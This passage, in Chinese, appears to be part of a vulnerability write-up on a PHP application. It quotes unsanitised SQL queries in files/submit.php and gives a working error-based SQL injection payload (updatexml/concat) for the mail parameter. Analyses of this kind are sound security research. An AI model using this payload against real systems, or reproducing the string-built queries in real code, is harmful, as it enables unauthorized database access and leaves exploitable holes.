 这里只对type参数进行了过滤,因而涉及到其他参数的SQL语句可能会存在SQL注入漏洞

漏洞存在位置

**漏洞位置：**`files/submit.php`第66行

```
$query = "SELECT * FROM interaction WHERE( mail = '$mail')";
```

**漏洞位置：**`files/submit.php` 第121-147行

```
$query = "INSERT INTO interaction (
type,
xs,
cid,
name,
mail,
url,
touxiang,
shebei,
ip,
content,
tz,
date
) VALUES (
'$type',
'$xs',
'$cid',
'$name',
'$mail',
'$url',
'$touxiang',
'$shebei',
'$ip',
'$content',
'$tz',
now()
)";
```

**漏洞位置：**`files/submit.php` 第176行

```
$query = "SELECT * FROM content WHERE( id= $cid)";
```

**漏洞位置：**`files/submit.php` 第206行

```
$query = "SELECT * FROM download WHERE( id= $cid)";
```

这里就随便拿一个来测试了,payload如下

```
name=1&content=有注入哦&mail=1') and updatexml(1,concat(0x7e,(select database()),0x7e),1)#
```
